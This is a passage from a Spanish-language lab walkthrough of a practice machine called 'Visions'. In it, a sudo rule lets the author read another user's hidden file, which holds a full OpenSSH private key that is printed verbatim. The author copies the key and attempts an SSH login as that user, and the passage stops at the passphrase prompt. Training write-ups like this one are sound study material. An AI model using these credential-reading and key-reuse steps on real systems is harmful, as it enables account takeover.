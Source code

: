 ```sh
sophia@visions:~$ sudo -l
Matching Defaults entries for sophia on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sophia may run the following commands on visions:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
```

Vemos que podemos ejecutar el binario **Cat** como cualquier usuario sin contraseña, pero sólo podemos ver el contenido del fichero `.invisible` del directorio personal de **Isabella**. Bueno, vamos a ver qué tenemos:

```sh
sophia@visions:~$ sudo /usr/bin/cat /home/isabella/.invisible
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBMekPa3i
1sMQAToGnurcIWAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQDNAxlJldzm
IgVNFXbjg51CS4YEuIxM5gQxjafNJ/rzYw0sOPkT9sL6dYasQcOHX1SYxk5E+qD8QNZQPZ
GfACdWDLwOcI4LLME0BOjARwmrpU4mJXwugX4+RbGICFMgY8ZYtKXEIoF8dwKPVsBdoIwi
lgHyfJD4LwkqfV6mvlau+XRZZBhvlNP10F0SAAZqBaA9y7hRWJO/XcCZC6HzJKzloAL2Xw
GvAMzgtPH/wj06NoOFjmVGMfmmHzCwgc+fLOeXXYzFeRNPH3cVExc+BnB8Ju6CFa6n7VBV
HLCYJ3CcgKnxv6OwVtkoDi0UEFUOefELQV7fZ+g1sZt/+2XPsmcZAAAD0E8RIvVF4XlKJq
INtHdJ5QJZCuq2ufynbPNiHF53PqSlmC//OkQZMWgJ5DcbzMJ92IqxRgjilZZUOUbE/SFI
PViwmpRWIGAhlyoPXyV513ukhb4UngYlgCP9qC4Rbn+Tp9Fv7lnAoD0DsmwITM2e/Z65AD
/i/BqrJ6scNEN0q+qNr3zOVljMZx+qy8cbuDn9Tbq2/N+mcoEysfjfOaoJIgVJnLx1XE6r
+Y9UcRyPAYs+5TB1Nz/fpnBo7vesOu5XLUqCBCphFGmdMCdSGYZAweitjQ+Mq36hQmCtSs
Dwcbjg8vy5LJ+mtJXA7QhqgAfXWnLLny4NeCztUnTG0NLjbLR6M5e+HSsi2EqDYoGNpWld
l4YzVPQoFMIaUJOGTc+VfkMWbQhzpiu66/Du8dwhC+p6QSmwhV/M70eWaH2ZVjK3MThg9K
CVugFsLxioqlp/rnE1oq7apTBX6FOjwz0ne+ytTVOQrHuPTs2QL4PlCvhPRoIuqydleFs4
rdtzE6b46PexXlupewywiO5AVzbfSRAlCYwiwV42xGpYsNcKhdUY+Q9d9i9yudjIFoicrA
MG9hxr7/DJqEY311kTglDEHqQB3faErYsYPiOL9TTZWnPLZhClrPbiWST5tmMWxgNE/AKY
R7mKGDBOMFPlBAjGuKqR6zk5DEc3RzJnvGjUlaT3zzdVmxD8SpWtjzS6xHaSw/WOvB0lsg
Dhf+Gc7OWyHm2qk+OMK9t0/lbIDfn3su0EHwbPjYTT3xk7CtG4AwiSqPve1t9bOdzD9w9r
TM7am/2i/BV1uv28823pCuYZmNG7hu5InzNC/3iTROraE31Qqe3JCNwxVDcHqb8s6gTN+J
q6OyZdvNNiVQUo1l7hNUlg4he4q1kTwoyAATa0hPKVxEFEISRtaQln5Ni8V+fos8GTqgAr
HH2LpFa4qZKTtUEU0f54ixjFL7Lkz6owbUG7Cy+LuGDI1aKJRGCZwd5LkStcF/MAO3pulc
MsHiYwmXT3lNHhkAd1h05N2yBzXaH+M3sX6IpNtq+gi+9F443Enk7FBRFLzxdJ+UT40f6E
+gyA2nBGygNhvQHXcu36A8BoE+IF7YVpdfDmYJffbTujtBUj2vrdsqVvtGUxf0vj9/Sv+J
HN9Yk2giXN8VX7qhcyLzUktmdfgd6JNAx+/P7Kh3HV5oWk1Da+VJS+wtCg/oEVSVyrEOpe
skV8zcwd+ErNODEHTUbD/nDARX8GeV158RMtRdZ5CJZSFjBz2oPDPDVpZMFNhENAAwPnrJ
KD/C2J6CKylbopifizfpEkmVqJRms=
-----END OPENSSH PRIVATE KEY-----
```

Vaya, es una clave OpenSSH privada, vamos a copiarla y a llevarla a nuestro equipo.

Una vez en nuestro equipo le damos los permisos necesarios y con `SSH` nos conectamos como **Isabella**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Visions]
└─# chmod 600 isabella.priv_ssh
                                                                                                                                                 
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Visions]
└─# ssh -i isabella.priv_ssh isabella@192.168.1.103
Enter passphrase for key 'isabella.priv_ssh':
```
